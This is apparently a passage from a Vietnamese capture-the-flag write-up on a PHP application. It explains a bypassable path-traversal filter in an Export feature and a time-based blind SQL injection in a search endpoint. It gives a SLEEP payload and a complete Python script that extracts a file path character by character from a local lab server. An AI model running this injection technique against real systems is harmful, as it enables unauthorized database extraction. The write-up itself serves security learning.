 Trong chức năng **Export** có source như sau:

![image](https://hackmd.io/_uploads/Hk4FRov2eg.png)

Nhìn thấy thì nó được viết nối chuỗi và chặn `../` nhưng vẫn có thể bypass nên chỗ này bị **path_traversal**

Quan sát thì có file `init_flag.php`

![image](https://hackmd.io/_uploads/SJYk13vhge.png)

Thì mình thấy nó tạo ra đường dẫn lưu file flag thông qua cột `storage_path` trong table `attachments` thông qua cột `filename`

### Khai thác 

Như trên thì để khai thác lấy flag bằng cách SQLi ở chức năng `search` để lấy `file path` từ đó đọc file qua chức năng `Export`. 

Sau khi quan sát và thử nhiều payload thì thấy nó là sqli time based. Và payload tui truyền là `'|IF(1/1,SLEEP(5),0)#`

![image](https://hackmd.io/_uploads/HknNX2whlg.png)

Như vậy, mình khai thác để lấy như sau: 

```python
import requests, time, sys

SLEEP_TIME = 2
THRESHOLD = 1.5

def send_res(payload):
    burp0_url = f"http://localhost:8081/api/search.php?q={payload}"
    burp0_cookies = {"pma_lang": "en", "wp-settings-time-0": "1758872539", "wp-settings-0": "editor%3Dtinymce", "pmaUser-1": "BImbD0b3lzHigjwMBgJBr7LGVkwwsFu1bM3g1otKJKM6VXwKWe%2BXkeWf1Hk%3D", "wp-settings-time-22": "1758974445", "wp-settings-22": "libraryContent%3Dbrowse%26editor%3Dhtml", "wp-settings-time-1": "1758977129", "PHPSESSID": "23373df87a1a6a521b034fc34f0b4d60"}
    burp0_headers = {"sec-ch-ua-platform": "\"Windows\"", "Accept-Language": "en-US,en;q=0.9", "sec-ch-ua": "\"Not=A?Brand\";v=\"24\", \"Chromium\";v=\"140\"", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36", "sec-ch-ua-mobile": "?0", "Accept": "*/*", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Dest": "empty", "Referer": "http://localhost:8081/cases.php", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
    start = time.time()
    requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
    return time.time() - start 

data = ""
for i in range(17, 65):
    left = 32 
    right = 126
    while left <= right: 
        mid = (left + right) // 2
        payload = f"'|IF((SELECT/**/ASCII(SUBSTR(storage_path,{i},1))/**/FROM/**/attachments)>{mid},SLEEP({SLEEP_TIME}),0)%23"
        res = send_res(payload)
        if res > THRESHOLD:
            left = mid + 1
        else:
            right = mid - 1 
    data += chr(left)
    sys.stdout.write(f"\r[+] Data: {data}")
    sys.stdout.flush()
``` 
